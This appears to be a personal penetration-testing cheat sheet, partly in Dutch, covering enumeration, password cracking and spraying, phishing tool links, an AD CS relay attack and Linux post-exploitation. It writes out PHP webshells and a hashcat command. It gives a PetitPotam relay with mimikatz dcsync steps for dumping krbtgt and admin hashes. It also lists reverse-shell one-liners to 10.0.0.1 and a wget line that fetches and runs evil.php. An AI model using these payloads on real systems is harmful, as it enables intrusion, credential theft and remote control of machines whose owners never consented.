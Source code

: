 # Enumeration
## Wordlists

https://wordlists.assetnote.io \
https://github.com/danielmiessler/SecLists \
https://github.com/xajkep/wordlists \

<br />

# Web 

## Webshells
PHP \
`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`
Execute one command\
`<?php system("whoami"); ?>`

Take input from the url paramter. shell.php?cmd=whoami\
`<?php system($_GET['cmd']); ?>`

The same but using passthru\
`<?php passthru($_GET['cmd']); ?>`

For shell_exec to output the result you need to echo it\
`<?php echo shell_exec("whoami");?>`

Exec() does not output the result without echo, and only output the last line. So not very useful!\
`<?php echo exec("whoami");?>`

Instead to this if you can. It will return the output as an array, and then print it all.\
`<?php exec("ls -la",$array); print_r($array); ?>`

preg_replace(). This is a cool trick\
`<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>`

Using backticks\
`<?php $output =\'whoami\`; echo "\<pre>$output\</pre>"; ?>`

Using backticks\
`<?php echo ```whoami```; ?>`



## Mendix
Schema/id en entity enumeration:
1. .XML frontend files enumeraten en dan zoeken op 'entity', staat soms guid bij
2. initiele sessie response bevat juicy data zoeken op 'klass' om objecten te vinden
3. Probeer de microflows te enumeraten via:
//MxModelReflection.Microflows (geen guid nodig)

## Citrix
https://github.com/Smarttech247PT/citrix_fgateway_fingerprint

Directories and files:
```
/cgi/Resources/List
/cgi/GetAuthMethods 
/nf/auth/getAuthenticationRequirements.do
/nf/auth/doEPA.do
/nf/auth/doLogoff.do
/nf/auth/getECdetails
/nf/auth/doAuthentication.do
```

 
 
 <br /><br />


# Passwords



## Password Cracking

Cracking IPMI 
```
./hashcat -m 7300 ~/Desktop/hashes ~/Desktop/Lists/passwords.txt --username
```
Wordlists: \
https://github.com/ohmybahgosh/RockYou2021.txt \
https://raw.githubusercontent.com/OpenTaal/opentaal-wordlist/master/wordlist.txt \
https://github.com/OpenTaal/opentaal-wordlist


Resources and tools: \
https://github.com/JakeWnuk/HIBPv7-Resources \
https://github.com/glitchedgitz/cook 

Rules:\
https://github.com/rarecoil/pantagrule \
https://github.com/Unic0rn28/hashcat-rules/blob/main/unicorn%20rules/SuperUnicorn.rule \
https://github.com/NotSoSecure/password_cracking_rules \ 
https://github.com/n0kovo/hashcat-rules-collection

## Password Spraying / Login 

https://github.com/knavesec/CredMaster \
https://github.com/blacklanternsecurity/TREVORspray \
https://github.com/byt3bl33d3r/SprayingToolkit \
https://github.com/dafthack/DomainPasswordSpray \  
https://github.com/dafthack/MailSniper 
<br /><br />
 
# Phishing 
https://github.com/tokyoneon/CredPhish





<br /><br />


# Internal attacks


## RDP Attacks

https://github.com/0x09AL/RdpThief

## Petite Potam
PetitPotam
```
1. Gebruik crackmapexec (of een andere tool/script) om de Active Directory Certificate Services systemen op te vragen.
(Nieuwste versie van cme is benodigd om ldap module te kunnen gebruiken, bijvoorbeeld 5.2.3)
cme ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs 

2. Zet de relay aanval op richting de Certificate Authority server:
impacket-ntlmrelayx -debug -smb2support --adcs -t https://<CA SERVER>/certsrv/certfnsh.asp --template DomainController

Trigger de NTLM authenticatie zodat de reflectie verstuurd kan worden middels PetitPotam.py (topotam):
3. python3 PetitPotam.py <responder IP> <domain> -u 'username' -p 'password'
  
Als de aanval succesvol verloopt beschik je nu over het CA certificaat in base64 vorm.

4. Start 'kekeo.exe' (gentlwiki), schakel Base64 input in en vraag een TGT (Ticket Granting Ticket) aan middels het eerder bemachtigde certificaat (PBX)
a. kekeo # base64 /input:on
b. kekeo # tgt::ask /pfx:<base64 pbx certificate> /user:<DC$ username> /domain:<domain> /ptt

5. Start mimikatz (gentlwiki) om een dcsync uit te voeren en de NTLM hash van iedere gewenste user te dumpen:
1. lsadump::dcsync /domain:<domain> /user:krbtgt
2. lsadump::dcsync /domain:<domain> /user:dcadmin
```

# Post Exploitation

## Linux
Getting a shell:
```
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```
## Netcat
Reverse shell:
`nc 172.16.1.100 443 -e /bin/sh`

## Netcat without Netcat
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
mknod backpipe p; nc 10.0.0.1 443 0<backpipe | /bin/bash 1>backpipe
/bin/bash -i > /dev/tcp/10.0.0.1/443 0<&1 2>&1
mknod backpipe p; telnet 10.0.0.1 443 0<backpipe | /bin/bash 1>backpipe
telnet 10.0.0.1 <1st_port> | /bin/bash | telnet 10.0.0.1 <2nd_port>
wget -O /tmp/bd.php http://10.0.0.1/evil.php && php -f /tmp/bd.php
 ```
<br /><br />

 # Physical attacks
  
  
 ## BIOS
 https://github.com/skysafe/reblog/blob/main/0000-defeating-a-laptops-bios-password/README.md


